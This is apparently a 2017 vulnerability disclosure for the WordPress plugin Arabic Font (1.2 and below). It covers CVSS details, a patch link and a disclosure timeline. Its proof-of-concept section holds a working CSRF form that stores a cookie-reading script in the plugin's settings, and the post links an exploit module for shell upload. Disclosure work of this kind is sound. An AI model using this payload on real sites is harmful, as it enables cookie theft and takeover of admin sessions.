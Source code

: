 ```yaml
---
layout: single
title: Arabic Font <= 1.2 CSRF Stored XSS
date: 2017-07-20
categories:
  - security
  - websec
  - disclosure
tags:
  - wordpress
  - arabic-font
  - stored xss
  - csrf
excerpt: Due to a lack of CSRF mitigation and entity encoding in the output generated by `arabic-font.php` and `/inc/panel.php`, it is possible to store and execute scripts in the context of an admin user.
---
```

## Homepage
[https://wordpress.org/plugins/arabic-font/](https://wordpress.org/plugins/arabic-font/)

## Overview
Due to a lack of CSRF mitigation and entity encoding in the output generated by `arabic-font.php` and `/inc/panel.php`, it is possible to store and execute scripts in the context of an admin user.

## CVSS Score
5.2

## CVSS Vector
[(AV:N/AC:M/Au:N/C:P/I:P/A:N/E:F/RL:W/RC:C)](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator?vector=(AV:N/AC:M/Au:N/C:P/I:P/A:N/E:F/RL:W/RC:C))

## Versions Affected
1.2 and below

## Solution
There is no official update to resolve this, but an unofficial patch has been included in this disclosure.

## Unofficial Patch
The patched plugin can be found here: [https://drive.google.com/file/d/1OWUiPZIQPKIc00hMocr6EukOPoHMWsHZ/view?usp=sharing](https://drive.google.com/file/d/1OWUiPZIQPKIc00hMocr6EukOPoHMWsHZ/view?usp=sharing)

## Proof of Concept
```xml
<form method="post" action="http://[target]/wp-admin/admin.php?page=arabic-font%2Finc%2Finit.php">
  <input type="hidden" name="save1" value="Save changes">
  <input type="hidden" name="AF_fontfamily" value="JF Flat Jozoor">
  <input type="hidden" name="AF_fontsize" value="18">
  <input type="hidden" name="AF_lineheight" value="45">
  <input type="hidden" name="AF_textalign" value="Center">
  <input type="hidden" name="AF_defaultcssclass" value=".arab&quot;&gt;&lt;script&gt;alert(document.cookie)&lt;/script&gt;&lt;input+type=&quot;hidden&quot;+value=&quot;">
  <input type="hidden" name="AF_customcss" value="">
  <input type="hidden" name="action" value="save">
  <input type="submit" value="Drink all the booze, hack all the things.">
</form>
```

## WordPress Exploit Framework Module
[exploit/xss/stored/arabic\_font\_csrf\_stored\_xss\_shell\_upload](https://github.com/rastating/wordpress-exploit-framework/blob/development/modules/exploit/xss/stored/arabic_font_csrf_stored_xss_shell_upload.rb)

## WPVDB-ID
[8868](https://wpvulndb.com/vulnerabilities/8868)

## Disclosure Timeline
* **2017-07-18**: Initial discovery
* **2017-07-18**: Contacted vendor with proof of concept and details of the vulnerabilities
* **2017-07-20**: Contacted WordPress to report vulnerability
* **2017-07-20**: Plugin removed from WordPress repository
* **2017-07-20**: Developed an unofficial patch in lieu of the vendor producing one
* **2017-07-20**: Released public disclosure

